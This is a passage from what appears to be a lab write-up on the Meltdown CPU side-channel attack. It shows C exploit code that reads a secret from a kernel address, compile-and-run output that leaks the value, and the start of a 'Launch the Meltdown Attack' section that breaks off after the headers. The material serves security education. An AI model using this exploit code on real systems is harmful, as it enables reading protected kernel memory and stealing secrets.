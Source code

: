 ```c

int main()
{
    /* Register a signal handler */
    signal(SIGSEGV, catch_segv);

    /* Flush the probing array */
    flushSideChannel();

    if (sigsetjmp(jbuf, 1) == 0) {
        meltdown(0xfd2aab32);
    } else {
        printf("Memory access violation!\n");
    }

    /* Reload the probing array */
    reloadSideChannel();

    return 0;
}
```

Compile the above program and run it multiple times:
```console
$ gcc -march=native MeltdownExperiment.c -o MeltdownExperiment
$ ./MeltdownExperiment
Memory access violation!
array[7 * 4096 + 1024] is in cache!
The secret is 7.
$ ./MeltdownExperiment
Memory access violation!
array[7 * 4096 + 1024] is in cache!
The secret is 7.
$ ./MeltdownExperiment
Memory access violation!
array[7 * 4096 + 1024] is in cache!
The secret is 7.
$ ./MeltdownExperiment
Memory access violation!
array[7 * 4096 + 1024] is in cache!
The secret is 7.
$ ./MeltdownExperiment
Memory access violation!
```
The last run reveals the noisy nature of this side channel.

## Launch the Meltdown Attack

Before triggering the out-of-order execution, we need to get the kernel secret data cached. Use the following code:
```c
#define _XOPEN_SOURCE 500
#include <setjmp.h>
#include <signal.h>
#include <fcntl.h>      /* For open() */
#include <x86intrin.h>
#include <unistd.h>     /* For pread() */
#include <stdint.h>
#include <stdio.h>

uint8_t array[256 * 4096];
#define CACHE_HIT_THRESHOLD (80)
#define DELTA 1024

```